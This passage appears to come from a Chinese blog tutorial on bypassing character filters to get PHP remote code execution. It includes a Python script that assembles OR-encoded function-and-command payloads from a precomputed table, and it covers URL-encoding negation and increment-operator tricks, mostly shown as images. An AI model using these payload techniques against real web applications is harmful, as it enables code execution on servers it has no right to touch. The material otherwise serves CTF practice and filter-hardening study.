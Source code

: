 ```

```

> 
利用生成的数据构造脚本


```
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("or_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)

```

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210602170233796.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210602170239753.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

## URL编码取反绕过

> 
适用PHP版本：无限制


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210602163350934.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210602163356845.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210602163534793.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210602163540529.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

## 递增递减运算符绕过

> 
数组（Array）的第一个字母就是大写A，而且第4个字母是小写a，也就是说，我们可以同时拿到小写和大写A，等于我们就可以拿到a-z和A-Z的所有字母<br/> 在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为Array
